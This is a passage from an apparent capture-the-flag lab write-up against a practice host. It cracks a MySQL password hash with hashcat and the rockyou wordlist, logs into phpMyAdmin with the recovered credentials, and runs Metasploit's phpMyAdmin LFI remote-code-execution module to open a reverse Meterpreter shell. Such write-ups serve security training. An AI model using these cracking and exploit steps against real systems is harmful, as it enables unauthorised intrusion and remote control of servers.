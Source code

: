 ```
Hash.Type........: MySQL4.1/MySQL5
Hash.Target......: 2d2b7a5e4e637b8fba1d17f40318f277d29964d0
Time.Started.....: Sun Jul 28 15:56:11 2019 (1 sec)
Time.Estimated...: Sun Jul 28 15:56:12 2019 (0 secs)
Guess.Base.......: File (/home/dan/SecLists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 37200.3 kH/s (2.13ms) @ Accel:1024 Loops:1 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 393216/14344384 (2.74%)
Rejected.........: 0/393216 (0.00%)
Restore.Point....: 0/14344384 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: 123456 -> remmer
Hardware.Mon.#1..: Temp: 37c Fan: 30% Util:  0% Core:1430MHz Mem:3504MHz Bus:16

Started: Sun Jul 28 15:56:07 2019
Stopped: Sun Jul 28 15:56:12 2019
```

Logging into phpMyAdmin with DBadmin:imissyou logs us in!

Revisiting that earlier CVE:

```
msf5 > use exploit/multi/http/phpmyadmin_lfi_rce 
msf5 exploit(multi/http/phpmyadmin_lfi_rce) > set target 2
target => 2
msf5 exploit(multi/http/phpmyadmin_lfi_rce) > set RHOSTS 10.10.10.143
RHOSTS => 10.10.10.143
msf5 exploit(multi/http/phpmyadmin_lfi_rce) > show options

Module options (exploit/multi/http/phpmyadmin_lfi_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    no        Password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.143     yes       The target address range or CIDR identifier
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /phpmyadmin/     yes       Base phpMyAdmin directory path
   USERNAME   root             yes       Username to authenticate with
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   2   Linux


msf5 exploit(multi/http/phpmyadmin_lfi_rce) > set USERNAME DBadmin
USERNAME => DBadmin
msf5 exploit(multi/http/phpmyadmin_lfi_rce) > set PASSWORD imissyou
PASSWORD => imissyou
msf5 exploit(multi/http/phpmyadmin_lfi_rce) > run

[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] Sending stage (38247 bytes) to 10.10.10.143
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.143:41174) at 2019-07-28 15:59:11 +0100
```
